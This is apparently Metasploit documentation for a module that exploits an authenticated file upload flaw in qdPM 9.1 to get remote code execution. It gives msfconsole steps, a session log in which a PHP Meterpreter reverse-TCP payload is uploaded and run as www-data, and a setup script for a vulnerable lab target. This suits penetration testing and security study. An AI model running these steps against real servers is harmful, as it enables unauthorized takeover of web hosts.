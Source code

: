 ## Vulnerable Application

This module exploits a arbitrary file upload vulnerability in the qdPM web-based project manager software, in its 9.1 version. When updating a user's profile (POST `myAccount/update`), the user is allowed to upload a profile picture, which is stored in a known location under the web server root. The software fails to verify the picture input, allowing for the upload of any file, with any filename extension. This can be exploited by uploading a PHP script and invoking it by making a request to it. 
The script will run with the same privileges as the web server.
The module has been tested against qdPM version 9.1

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/qdpm_authenticated_rce`
- [ ] `set EMAIL <email>`
- [ ] `set PASSWORD <password>`
- [ ] `set TARGETURI <target_uri>`
- [ ] `set RHOST <rhost>`
- [ ] `set RPORT <rport>`
- [ ] `exploit`
- [ ] Add SSL, Proxy, and VHOST options if needed.
- [ ] Verify that a new session is created.

## Options

  **EMAIL**  
  [Required]  
  The email of the user you want to exploit the software with. The user must NOT be the original Admin (i.e. the account created upon installing qdPM, `admin@your_domain.com`). The original Admin user does not have the same attributes as the other user created later on, and its profile picture cannot be changed. In fact, it has no profile picure nor a `/myAccount` page altogether. If you only have credentials for the original admin, you can always login and create another regular user to run this exploit. Note that users with Admin role are also exploitable, only the one created upon installation is not.

  **PASSWORD**  
  [Required]  
  The password of the user you are trying to exploit.

  **TARGETURI**  
  The path qdPM lives at. This is only needed is qdPM is not served from the webserver root folder.

## Scenarios

As it can be shown by the following scenarios, the exploit works reliably against a variety of targets. The exploit, however, might fail when a large payload (i.e. stageless meterpreter) is selected.
  
   
  **Attacking with a generic PHP payload, OS independent**

```
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Generic\ (PHP\ Payload)
target => Generic (PHP Payload)
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit

[*] Started reverse TCP handler on 192.168.2.177:4444
[*] Attempt to login with 'johndoe@localhost.com:easyone'
[*] Uploading PHP payload (1123 bytes)...
[*] Executing 'JGvak.php'
[*] Sending stage (39927 bytes) to 192.168.2.177
[!] Removing: 993379-JGvak.php
[*] Meterpreter session 2 opened (192.168.2.177:4444 -> 192.168.2.177:43816) at 2022-06-14 10:03:46 +0200

(Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
Server username: www-data
```

## Installation

QDPM 9.1 relies on outdated software, and installing it can be quite nuanced. Please run the provided script to get the application set up together with a web server, the right version of PHP, and MySQL. This is tested on a fresh installation of Ubuntu Server 22.04.

```
apt install software-properties-common -y
add-apt-repository ppa:ondrej/php
apt update
apt install -y nginx php7.3-fpm php7.3-mysql php7.3-xml php7.3-gd mariadb-server unzip wget
systemctl enable --now mariadb.service php7.3-fpm.service
mysql -e "UPDATE mysql.user SET Password = PASSWORD('password') WHERE User = 'root'"
mysql -e "DROP USER ''@'$(hostname)'"
mysql -e "DROP DATABASE test"
mysql -e "FLUSH PRIVILEGES"
mysql -e "CREATE DATABASE qdpm_db default charset utf8"
mysql -e "CREATE USER 'user'@'localhost' IDENTIFIED BY 'pass'"
mysql -e "GRANT ALL PRIVILEGES ON qdpm_db.* TO 'user'@'localhost';"
cd /opt
wget https://www.exploit-db.com/apps/f922670e98bcbcff923d9bfaf430e669-qdPM_9.1.zip -O qdPM_9.1.zip
unzip -d /var/www/html/qdpm qdPM_9.1.zip
rm qdPM_9.1.zip
chown -R www-data:www-data /var/www/html/qdpm/
rm /etc/nginx/sites-available/default
rm /etc/nginx/sites-enabled/default
tee -a /etc/nginx/sites-available/default > /dev/null <<EOT
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /var/www/html/qdpm/;
    index index.php;

    location / {
        try_files \$uri /index.php\$is_args\$args;
    }

    location ~* \.php$ {
        fastcgi_pass unix:/var/run/php/php7.3-fpm.sock;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME \$realpath_root\$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT \$realpath_root;
    }

    error_log /var/log/nginx/qdpm_error.log;
    access_log /var/log/nginx/qdpm_access.log;
}
EOT
ln -s /etc/nginx/sites-available/default /etc/nginx/sites-enabled/
systemctl start nginx.service
systemctl reload nginx.service
```

If the script runs successfully, you should have a webserver serving the application on port 80.  
Visit the website to complete the installation via the web installer. It will ask you to fill in the database name, user, and password. Those will be `qdpm_db`, `user`, and `pass` respectively. Then, create a password for your `admin@localhost.com` account and login with it. You can now create a second user to run the exploit against.